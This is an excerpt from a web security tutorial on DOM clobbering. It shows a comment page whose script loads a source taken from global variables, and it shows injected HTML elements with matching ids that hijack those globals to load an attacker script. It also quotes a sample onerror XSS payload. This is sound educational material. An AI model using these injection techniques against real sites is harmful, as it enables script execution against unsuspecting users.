 Under what circumstances can we use DOM clobbering for attacks?

Firstly, there must be an opportunity to display your custom HTML on the page; otherwise, it won't be possible.

So, a potential attack scenario might look like this:

``` html
<!DOCTYPE html>
<html>
<body>
  <h1>Comments</h1>
  <div>
    You comment: hello
  </div> 
  <script>
    if (window.TEST_MODE) {
      // load test script
      var script = document.createElement('script')
      script.src = window.TEST_SCRIPT_SRC
      document.body.appendChild(script)
    }
  </script>
</body>
</html>
```

Let's say there is a comment board where you can enter any content. However, the input undergoes sanitization on the server-side, removing anything that can execute JavaScript. Therefore, `<script></script>` gets removed, and the `onerror` attribute of `<img src=x onerror=alert(1)>` is stripped off. Many XSS payloads won't pass through.

In short, you cannot execute JavaScript to achieve XSS because all such attempts are filtered out.

However, due to various factors, HTML tags are not filtered out, so you can display custom HTML. As long as JavaScript is not executed, you can insert any HTML tag and set any attribute.

So, you can do the following:

``` html
<!DOCTYPE html>
<html>
<body>
  <h1>Comments</h1>
  <div>
    Your comment: <div id="TEST_MODE"></div>
    <a id="TEST_SCRIPT_SRC" href="my_evil_script"></a>
  </div> 
  <script>
    if (window.TEST_MODE) {
      // load test script
      var script = document.createElement('script')
      script.src = window.TEST_SCRIPT_SRC
      document.body.appendChild(script)
    }
  </script>
</body>
</html>
```
